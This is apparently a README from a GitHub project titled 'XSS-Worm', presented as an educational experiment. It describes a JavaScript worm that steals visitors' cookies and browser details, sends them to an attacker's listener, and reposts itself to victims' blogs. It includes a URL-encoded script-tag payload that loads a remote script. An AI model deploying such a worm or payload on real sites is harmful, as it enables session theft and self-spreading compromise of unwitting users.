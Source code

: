 # XSS-Worm
XSS Worm experiment for educational purposes, which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other client information (like browser and os) to the attacker (attacker is localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into a blog somehow(attacker posts to his page in this experiment).
2. Attacker will listen a port (8089 in this experiment) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the **tcp/Main.java** program will do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file. Stealed information will be seperated by "#" character in script. when parsing, it will be delimited by "#".
```php
$row_data = explode('#', $data);
```

## Spreading
The worm (**javascript/worm.js**) will spread(post) itself to anyone's webpage who *involuntarily* run itself.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the blog whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
